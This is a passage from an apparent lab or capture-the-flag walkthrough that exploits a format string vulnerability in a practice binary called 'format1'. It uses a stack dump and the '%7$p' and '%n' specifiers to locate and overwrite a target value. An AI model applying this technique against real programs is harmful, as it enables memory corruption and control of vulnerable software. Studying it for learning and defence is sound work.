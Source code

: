 segfault… Why ? That’s because we try to write the value `4` (the size of our string) at the address `0x40` (the address pointed by `%n`) so, obviously it segfault…

Remember we control the input, and we can specify a position to read/write on the stack with `%<num>$n`.

First, to write `0xcafebabe` in target, we have to find the target pointer on the stack.

```
[------------------------stack-------------------]
0000| 0xbffff650 --> 0xbffff66c ("AAAA\n")
0004| 0xbffff654 --> 0x40 ('@')
0008| 0xbffff658 --> 0xb7fcb5a0 --> 0xfbad2288 
0012| 0xbffff65c --> 0x400637 (<main+23>:   add    ebx,0x1351)
0016| 0xbffff660 --> 0x0 
0020| 0xbffff664 --> 0xbffff704 --> 0x7d074f84 
0024| 0xbffff668 --> 0xb7fcb000 --> 0x1b2db0 
0028| 0xbffff66c ("AAAA\n")
0032| 0xbffff670 --> 0xffff000a 
0036| 0xbffff674 --> 0xb7fcb000 --> 0x1b2db0 
0040| 0xbffff678 --> 0xb7e24e18 --> 0x2bb6 
0044| 0xbffff67c --> 0xb7fd5858 --> 0xb7e18000 --> 0x464c457f 
0048| 0xbffff680 --> 0xb7fcb000 --> 0x1b2db0 
0052| 0xbffff684 --> 0xbffff764 --> 0xbffff885 ("/home/user/format1")
0056| 0xbffff688 --> 0xb7ffed00 --> 0x0 
0060| 0xbffff68c --> 0x40000 
0064| 0xbffff690 --> 0x0 
0068| 0xbffff694 --> 0x401988 --> 0x187c 
0072| 0xbffff698 --> 0x1 
0076| 0xbffff69c --> 0x40070b (<__libc_csu_init+75>:    add    edi,0x1)
0080| 0xbffff6a0 --> 0x1 
0084| 0xbffff6a4 --> 0xbffff764 --> 0xbffff885 ("/home/user/format1")
0088| 0xbffff6a8 --> 0xbffff76c --> 0xbffff898 ("LS_...
0092| 0xbffff6ac --> 0xdeadc0de ; Here is the pointer
0096| 0xbffff6b0 --> 0xbffff6d0 --> 0x1 
0100| 0xbffff6b4 --> 0x0 
0104| 0xbffff6b8 --> 0x0 
0108| 0xbffff6bc --> 0xb7e30286 (<__libc_start_main+246>:   add    esp,0x10)
0112| 0xbffff6c0 --> 0x1 
0116| 0xbffff6c4 --> 0xb7fcb000 --> 0x1b2db0 
[----------------------]
```
We want to modify the 23rd argument on the stack `0xbffff6ac`.

If we can find the pointer to `AAAA`, we can replace `AAAA` by a specific address to write to. Just recheck the stack, you’ll see that `AAAA` is the 7th argument.

```
$ ./format1
AAAA%7$p
AAAA0x41414141
Nope...
```

We want to write `0xcafebabe`. Here, we got 2 issues, first, if writing 4 chars as input means writing `4` at a specific address.
